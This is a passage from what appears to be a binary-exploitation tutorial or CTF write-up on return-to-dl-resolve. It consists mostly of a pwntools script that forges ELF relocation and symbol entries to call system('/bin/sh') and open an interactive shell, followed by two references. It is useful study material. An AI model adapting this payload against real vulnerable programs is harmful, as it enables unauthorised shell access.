 ```python
# payload_7 += p32(plt_0)
# payload_7 += p32(reloc_index)
# payload_7 += "AAAA"
# payload_7 += p32(base_addr + 80)
# payload_7 += "AAAA"
# payload_7 += "AAAA"
# payload_7 += fake_reloc
# payload_7 += "A" * align
# payload_7 += fake_sym
# payload_7 += "system\x00"
# payload_7 += "A" * (80 - len(payload_7))
# payload_7 += "/bin/sh\x00"
# payload_7 += "A" * (100 - len(payload_7))
# io.sendline(payload_7)

reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```

## 参考资料

- [How the ELF Ruined Christmas](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)
